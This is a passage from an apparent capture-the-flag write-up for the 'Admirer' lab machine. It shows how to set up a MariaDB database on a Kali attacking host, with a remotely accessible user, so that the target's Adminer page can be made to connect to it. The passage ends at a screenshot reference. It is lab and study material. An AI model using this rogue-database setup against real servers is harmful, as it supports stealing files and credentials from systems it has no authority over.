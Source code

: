 Then kill and restart MariaDB:

```bash
sudo pkill mysqld
ps ax | grep mysqld # make sure it is dead
systemctl start mariadb
```

---

Now start and connect to the Kali MySQL DB:

```bash
sudo systemctl start mariadb
mysql -u root -h localhost -p
```

Once able to connect to MariaDB as `root`, run the following to create a new database for the exploit and a user that can be used to login remotely:

- https://docs.bitnami.com/aws/infrastructure/mariadb/configuration/create-database/
- https://phoenixnap.com/kb/how-to-create-mariadb-user-grant-privileges

```sql
create database BUBBA_GUMP;
create table BUBBA_GUMP.data (data varchar(255));
grant all privileges on BUBBA_GUMP.* TO 'bubba'@'localhost' identified by 'gump';
grant all privileges on BUBBA_GUMP.* TO 'bubba'@'%' identified by 'gump';
flush privileges;
exit;
```

This creates a DB called `	BUBBA_GUMP` with a table called `data` that has a single column called `data` that sotres strings (`varchar`) of length 255. It also creates a user `bubba` with the password `gump` that can locally & remotely access the `	BUBBA_GUMP` DB and modify it. Now make the MySQL DB accessible remotely:

- https://webdock.io/en/docs/how-guides/how-enable-remote-access-your-mariadbmysql-database

```bash
sudo systemctl stop mariadb
sudo vim /etc/mysql/mariadb.conf.d/50-server.cnf # change bind-address to 0.0.0.0
sudo systemctl start mariadb 
```

Then add the following to `http://10.10.10.187/utility-scripts/adminer.php`:

![web5](./admirer/web5.png)
